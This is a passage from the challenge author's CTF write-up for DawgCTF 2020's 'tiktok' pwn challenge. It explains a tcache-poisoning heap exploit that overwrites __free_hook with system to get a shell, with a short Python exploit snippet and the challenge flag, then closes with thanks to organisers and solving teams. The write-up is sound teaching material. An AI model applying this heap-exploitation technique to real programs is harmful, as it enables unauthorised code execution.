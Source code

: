 By it, of course, we mean a shell. Remember we have setup some fake songs
(numbered 6, 7, and 8) to read from stdin so we can malloc any size with any
contents.  
At this point, our tcache looks something like this:

```  
[heap]--\  
 ^-----/  
```

We first make one 0x20 allocation, which gives us the looped tcache entry.
Because of the loop, the tcache head  
still points to this 0x20 chunk, so writing a fake next pointer here will give
us control of the linked list. We set the next  
pointer to `__free_hook`. Now tcache 0x20 looks something like this:

```  
[heap] -> [__free_hook]  
```

We can make another 0x20 allocation to consume the first entry. For this, we
pick the string `"/bin/sh"`. After that allocation, the tcache  
head becomes `__free_hook`. We can make another allocation to overwrite
`__free_hook` with `system` and trigger the call by freeing a chunk.  
(You can see the full exploit script over at `trashcanna-sol.py`)

```python  
freesong(5)  
stdsong(6, 8, p64(libc.symbols["__free_hook"]))  
stdsong(7, 8, "/bin/sh")  
stdsong(8, 8, p64(libc.symbols["system"]))  
freesong(7)

proc.interactive()  
```

Now we've got a shell and can cat the flag, which is appropriately
`DawgCTF{h0t_aNd_d@ng3r0us}`.

### you'll miss the magic of these good old days

Sad to say this was my last DawgCTF as a student at UMBC, but happy to say it
was the biggest  
and baddest we've ever had. Special thanks to RJ Joyce, Joe Aurelio, Cyrus
Bonyadi, Seamus Burke,  
Chris Gardner, Zack Orndorff, Jackie Schultz, Chris Skane, Drew Barrett, and
everyone else who  
made this event so special. Congrats to redpwn for the win and shoutout to
Polaris, redpwn,  
HTCPCP://, and meltdown for solving it during the competiton (RPISEC also got
the solve shortly  
after the competition ended, so kudos to them as well). I'll be writing
challenges next year  
as well, so if you thought this was it I direct you to a line from Praying:
`the best is yet to come`.  

Original writeup
(https://github.com/toomanybananas/dawgctf-2020-writeups/blob/master/pwn/tiktok/WRITEUP.md).